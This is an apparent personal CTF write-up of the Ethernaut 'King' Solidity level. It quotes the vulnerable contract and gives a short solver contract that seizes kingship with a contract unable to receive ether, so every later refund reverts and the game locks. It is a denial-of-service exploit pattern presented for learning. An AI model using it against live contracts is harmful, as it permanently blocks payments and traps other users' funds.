 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg)

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
>
>Such a fun game. Your goal is to break it.
>
>When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Solution:
```sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver{
	constructor(address payable _to) payable {
		(bool sent, ) = _to.call{value:1000000000000000}("");
		require(sent, "Failed to send value!");
	}
}
```
![[Pasted image 20231028230010.png|300]]

___
Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).